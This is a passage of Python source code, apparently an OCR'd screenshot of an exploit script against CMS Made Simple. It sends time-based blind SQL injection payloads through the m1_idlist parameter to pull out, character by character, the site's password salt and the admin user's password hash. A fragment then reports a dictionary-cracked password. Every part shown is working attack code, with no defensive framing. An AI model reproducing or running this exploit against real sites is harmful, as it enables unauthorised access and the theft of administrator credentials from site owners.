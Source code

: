 ```python
            output += "\n[+] Password cracked: " + line
            break
    dict.close()

def beautify_print_try(value):
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print "\033c"
    cprint(output,'green', attrs=['bold'])

def dump_salt():
    global flag
    global salt
    global output
    ord_salt = ""
    ord_salt_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_salt = salt + dictionary[i]
            ord_salt_temp = ord_salt + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_salt)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_siteprefs+where+sitepref_value+like+0x" + ord_salt_temp + "25+and+sitepref_name+like+0x736974656d61736b)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            salt = temp_salt
            ord_salt = ord_salt_temp
    flag = True
    output += '\n[+] Salt for password found: ' + salt

def dump_password():
    global flag
    global password
    global output
    ord_password = ""
    ord_password_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_password = password + dictionary[i]
            ord_password_temp = ord_password + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_password)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users"
            payload += "+where+password+like+0x" + ord_password_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
```